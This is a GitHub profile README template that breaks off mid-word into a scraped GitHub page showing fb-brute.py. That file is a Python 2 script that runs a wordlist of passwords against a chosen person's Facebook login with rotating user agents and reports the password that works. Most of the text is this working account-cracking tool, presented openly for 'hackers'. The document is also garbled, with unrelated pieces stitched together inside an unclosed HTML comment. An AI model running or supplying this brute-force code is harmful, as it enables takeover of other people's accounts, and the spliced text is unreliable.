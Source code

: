 - 👋 Hi, I’m @xariel12
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
xariel12/xariel12 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the PreviSkip to content
lunnar211
/
fb-brute
Public
Code
Issues
8
Pull requests
2
Actions
Projects
Wiki
Security
Insights
fb-brute/fb-brute.py
@lunnar211
lunnar211 Update fb-brute.py
 1 contributor
87 lines (67 sloc)  2.36 KB
#!/usr/bin/env python
# -*- coding: UTF-8 -*-
# This Cooding is Coode in python 2 now it willbe renew soon

import sys
import mechanize
import cookielib
import random
#pip2 install mechanize
#pip2 install requests



email = str(raw_input("Enter the Facebook Username (or) Email (or) Phone Number : "))


passwordlist = str(raw_input("Enter the wordlist name and path : "))


login = 'https://www.facebook.com/login.php?login_attempt=1'


useragents = [('Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0','Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1')]

def main():
	global br
	br = mechanize.Browser()
	cj = cookielib.LWPCookieJar()
	br.set_handle_robots(False)
	br.set_handle_redirect(True)
	br.set_cookiejar(cj)
	br.set_handle_equiv(True)
	br.set_handle_referer(True)
	br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
	welcome()
	search()
	print("Password does not exist in the wordlist")

	
	
def brute(password):
	sys.stdout.write("\r[*] Trying ..... {}\n".format(password))
	sys.stdout.flush()
	br.addheaders = [('User-agent', random.choice(useragents))]
	site = br.open(login)
	br.select_form(nr = 0)
	br.form['email'] = email
	br.form['pass'] = password
	sub = br.submit()
	log = sub.geturl()
	if log != login and (not 'login_attempt' in log):
			print("\n\n[+] Password Find = {}".format(password))
			raw_input("ANY KEY to Exit....")
			sys.exit(1)

			
def search():
	global password
	passwords = open(passwordlist,"r")
	for password in passwords:
		password = password.replace("\n","")
		brute(password)

		
#welcome Hackers
def welcome():
	wel = """
        +=========================================+
        |..........   Facebook Crack Brute   ...........|
        +-----------------------------------------+
        |            #Author: Technical Dipesh          | 
        |	       Version 1.0                      |
 	|   https://www.youtube.com/channel/UCXuKDM3J_GkCxmdki8Hxh4w      |
        +=========================================+
        |..........  fb-brute  ...........|
        +-----------------------------------------+\n\n
"""
	total = open(passwordlist,"r")
	total = total.readlines()
	print wel 
	print " [*] Account to crack : {}".format(email)
	print " [*] Loaded :" , len(total), "passwords"
	print " [*] Cracking, please wait ...\n\n"

	
if __name__ == '__main__':
	main()
Footer
© 2022 GitHub, Inc.
Footer navigation
Terms
Privacy
Security
Status
Docs
Contact GitHub
Pricing
API
Training
Blog
About
ew link to take a look at your changes.
--->
